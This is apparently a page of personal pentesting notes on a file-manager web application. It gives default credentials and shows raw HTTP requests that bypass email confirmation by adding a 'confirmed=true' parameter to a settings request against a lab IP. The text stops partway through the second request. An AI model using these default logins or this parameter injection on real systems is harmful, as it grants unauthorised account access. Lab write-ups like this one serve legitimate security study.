

repository: amandaguglieri/hackinglife · page: pentesting-filemanager/index.html · generator: mkdocs

---
title: Pentesting Filemanager
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - filemanager
---
# Pentesting Filemanager

## Default credentials

```
admin:admin
```

If the application allows registering, there exist a vulnerability in the email approval:

You can browse to  http://192.168.108.231/ and register with an user. However that user will be disabled, but there is a feature for updating the email for sending the confirmation. If we update the email, note the request:

```
POST /settings/email HTTP/1.1
Host: 192.168.108.231
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/javascript, application/javascript, application/ecmascript, application/x-ecmascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.108.231/register/confirmation
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
X-CSRF-Token: jU7YlbEk-fJ2rxnMLbHOuLtRgFDkvJ9T6dG_yFJ4KnYNsRClJoReJXDWu79D851m7wtJNGeUVi0gQjeAkRk34Q
Content-Length: 188
Origin: http://192.168.108.231
Connection: keep-alive
Cookie: _boolean_session=efqmLjaUhvVwL9FTK7PcfsaBU8%2FHyK%2BKjqQhiKBfXg5IeMGx9FgpEOHuA6iZPm4oTDhcazyXDZsv3mqoANd2%2FPMzIawKqub2yn%2BIb0DSXC2d65%2BU%2B6dQZxA8j95ONmgViKjuOp%2B%2B6vWYFX0w9QE9wgM0uZeK3k0ENouQFbHe4CctWuKpX1v2C03da%2Ba9nUbb4nTOj7ujeAZjJQXtIIk%2BhoMzbY7hudxCHE8ZQ3TcewW8sbH6304znd%2F2aldKvDzN5roT6NYNmbi7vpmzC1MEoAmP6U17Mzr58See7fZ%2FL26%2Bc60PpQMoiw%3D%3D--IOslTlUAwizpZt9z--bSQuTZgN7u5vZVR9uOheVg%3D%3D
Priority: u=0

_method=patch&authenticity_token=jU7YlbEk-fJ2rxnMLbHOuLtRgFDkvJ9T6dG_yFJ4KnYNsRClJoReJXDWu79D851m7wtJNGeUVi0gQjeAkRk34Q&user%5Bemail%5D=lala%40lala.com&confirmed=true&commit=Change%20email
```

And note the response:

```
HTTP/1.1 200 OK
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Content-Type: application/json; charset=utf-8
Vary: Accept
ETag: W/"f71d3fd83aa3c9e6fdc84abcb05af92b"
Cache-Control: max-age=0, private, must-revalidate
Set-Cookie: _boolean_session=vkkbGf9Od%2FIz3E0AgxragQ61gE3dTUAF041c64Ufk7hsZTqcUlNwtb1xjenWOkKJYwtdwpIHLBga2CYEYbjt1pQudKD0%2BoP17%2BzOjKI7w8638dS8%2BXnhzL2sy1K3JU3042dccj3Fl%2FNSRCFbQiOk7L%2B0hxyah5eu%2FjdSzExr8OmdHbqVJCzrRA6fF4cXKDFOB8gXhemj9Fr7SLOefT5yl%2BGhBsMuzqHchd4EEpMbbt3aXf0Y%2B5gKiivFcXGp1nyYilob96PXjU%2BaWmalbvvlTyCbuOKWqINYrZ1013XTuKafL8UpzD2pFQ%3D%3D--FHRuVvzEyO5zbcv6--%2Bo0j4K2pEIieQT%2B%2FNjqs%2Bw%3D%3D; path=/; HttpOnly; SameSite=Lax
X-Request-Id: d5410efe-8400-47ac-9b7f-d336307984c4
X-Runtime: 0.008355
Content-Length: 150

{"email":"lala@lala.com","id":2,"username":"admin2","confirmed":false,"created_at":"2026-02-13T22:15:30.099Z","updated_at":"2026-02-13T22:15:30.099Z"}
```

If we include in the request the parameter confirmed as true, we will be confirmed. See the request:

```
POST /settings/email HTTP/1.1
Host: 192.168.108.231
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/javascript, application/javascript, application/ecmascript, application/x-ecmascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.108.231/register/confirmation
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
X-CSRF-Token: jU7YlbEk-fJ2rxnMLbHOuLtRgFDkvJ9T6dG_yFJ4KnYNsRClJoReJXDWu79D851m7wtJNGeUVi0gQjeAkRk34Q
Content-Length: 108
Origin: http://192.168.108.231
Connection: keep-alive
Cookie: _boolean_session=efqmLjaUhvVwL9FTK7PcfsaBU8%2FHyK%2BKjqQhiKBfXg5IeMGx9FgpEOHuA6iZPm4oTDhcazyXDZsv3mqoANd2%2FPMzIawKqub2yn%2BIb0DSXC2d65%2BU%2B6dQZxA8j95ONmgViKjuOp%2B%2B6vWYFX0w9QE9wgM0uZeK3k0ENouQFbHe4CctWuKpX1v2C03da%2Ba9nUbb4nTOj7ujeAZjJQXtIIk%2BhoMzbY7hudxCHE8ZQ3TcewW8sbH6304znd%2F2aldKvDzN5roT6NYNmbi7vpmzC1MEoAmP6U17Mzr58See7fZ%2FL26%2Bc60PpQMoiw%3D%3D--IOslTlUAwizpZt9z--bSQuTZgN7u5vZVR9uOheVg%3D%3D
Priority: u=0
